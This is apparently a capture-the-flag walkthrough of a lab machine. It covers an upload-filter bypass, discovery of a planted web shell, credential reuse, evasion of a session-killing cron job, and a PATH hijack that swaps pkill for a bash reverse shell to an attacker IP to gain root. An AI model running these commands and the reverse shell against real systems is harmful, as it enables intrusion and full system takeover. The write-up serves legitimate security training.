 # Hacker vs. Hacker

We start with Nmap

`nmap -sC -sV 10.10.54.39` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](image.png)

Looking at the webpage we find a file upload section. We quickly upload our `php-reverse-shell.php` file.

![page.png](page.png)

But we get back a message.

![image.png](image%201.png)

Looking at the source code we find a code snippet for filtering uploads. The code verifies if there is “.pdf“ in the file name and the directory where the uploaded files are stored : `cvs/` . 

![source.png](source.png)

A change to our filename to `php-reverse-shell.pdf.php`  and upload. Still gets back the same message. Next we try opening the cvs directory. But directory listing is disabled.

![cvs.png](1cvs.png)

We try fuzzing the directory for files with extension `.pdf.php` , to see if our file has been uploaded.

`ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -u [http://10.10.54.39/cvs/FUZZ](http://10.10.54.39/cvs/FUZZ) -e .pdf.php -t 100`

To our surprise we see another file  `shell.pdf.php` . Since the story behind the machine is that it has already been exploited and we are trying to regain control, existence of such a file is possible.

![image.png](image%202.png)

Running commands on that file returns results as expected.

[`http://10.10.54.39/cvs/shell.pdf.php?cmd=ls](http://10.10.54.39/cvs/shell.pdf.php?cmd=ls);`

![image.png](image%203.png)

Retrieving the `/etc/passwd`  file reveals the username `lachlan` .

![image.png](image%204.png)

And we get the first flag from the users folder.

![image.png](image%205.png)

Reading the `.bash_history` file shows a cron job `persistence`  and an attempt to change password.

![image.png](image%206.png)

Using the username and password we were able to login using SSH. But even before being able to run any commands we were getting kicked out along with a message “nope”. This might be the cron job the hacker has implemented to maintain persistence.

![image.png](image%207.png)

Looking at it we can see the path being set to `/home/lachlan/bin`  as the first one. (Not a good idea!)

![image.png](image%208.png)

Quick search and got a breakdown on the code:

/bin/sleep 1 → Delay for 1 second

for f in `/bin/ls /dev/pts` → loop all active pseudo terminal sessions

do /usr/bin/echo nope > /dev/pts/$f  → echo msg nope to all those sessions

pkill -9 -t pts/$f → kill those sessions

Since pseudo terminal sessions are killed, we disable it while logging in. 

We use -T flag of `ssh` , 

`-T      Disable pseudo-tty allocation`

![image.png](image%209.png)

We get a shell not interactive like bash or sh, but still can run commands.

The hacker is using `pkill` to kill the sessions and the file path given first is `/home/lachlan/bin` . Since the process start checking the path from left to right it will be checking `/home/lachlan/bin` first, which we can control. So we create our own `pkill` , which is a reverse shell to our attacker machine.

`echo "bash -c 'bash -i >& /dev/tcp/10.17.17.47/9001 0>&1'" > pkill` 

`chmod  +x pkill` 

![image.png](image%2010.png)

The process is run as root. So we get a root shell back.

![image.png](image%2011.png)
